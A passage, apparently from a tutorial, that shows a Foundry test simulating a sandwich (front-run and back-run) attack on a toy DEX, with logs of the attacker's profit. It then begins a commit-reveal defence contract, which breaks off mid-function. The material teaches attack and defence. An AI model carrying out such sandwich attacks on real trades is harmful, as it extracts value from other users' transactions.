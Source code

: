 ```solidity

    function testSandwichAttack() public {
        // STEP 1: Front-Run
        vm.prank(Quicksilver);
        dex.buy{value: 1 ether}(10);
        uint256 Q_tokens_acquired = dex.balances(Quicksilver);

        // STEP 2: Victim's Trade
        vm.prank(IronMan);
        dex.buy{value: 1 ether}(10);

        // STEP 3: Back-Run
        vm.prank(Quicksilver);
        uint256 Q_eth_revenue = dex.sell(Q_tokens_acquired, 0);

        // Check: Iron Man’s Loss
        assertLt(dex.balances(IronMan), 95 ether, "Iron Man received fewer tokens");
        // Check: Quicksilver’s Profit
        uint256 Q_cost = 1 ether;
        uint256 netProfit = Q_eth_revenue - Q_cost;
        console.log("Q's ETH Cost (Front-Run):", Q_cost);
        console.log("Q's ETH Revenue (Back-Run):", Q_eth_revenue);
        console.log("Quicksilver's Net Profit (MEV):", netProfit);
        assertGt(netProfit, 0, "Quicksilver failed to profit");
    }
}
```

**Logs**:  
- Q's ETH Cost (Front-Run): 1000000000000000000  
- Q's ETH Revenue (Back-Run): 1001998000003992007  
- Quicksilver's Net Profit (MEV): 1998000003992007

## Professional Defense Mechanisms
#### 1. Commit–Reveal Scheme
Hides trade details until execution.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract StarkSwapCommitReveal {
    mapping(address => uint256) public balances;
    mapping(address => bytes32) public commitments;
    uint256 public reserveETH = 1000 ether;
    uint256 public reserveToken = 10000 ether;

    // Step 1: Commit hash
    function commit(bytes32 hash) public {
        commitments[msg.sender] = hash;
    }

    // Step 2: Reveal trade
    function reveal(uint256 ethAmount, uint256 nonce, uint256 minTokens) public payable {
        bytes32 hash = keccak256(abi.encodePacked(msg.sender, ethAmount, nonce));
        require(commitments[msg.sender] == hash, "Invalid reveal");
        require(msg.value == ethAmount, "Incorrect ETH");
        uint256 tokensOut = (ethAmount * reserveToken) / (reserveETH + ethAmount);
        require(tokensOut >= minTokens, "Slippage too high");
        reserveETH += ethAmount;
        reserveToken -= tokensOut;
        balances[msg.sender] += tokensOut;
        commitments[msg.sender] = bytes32(0);
```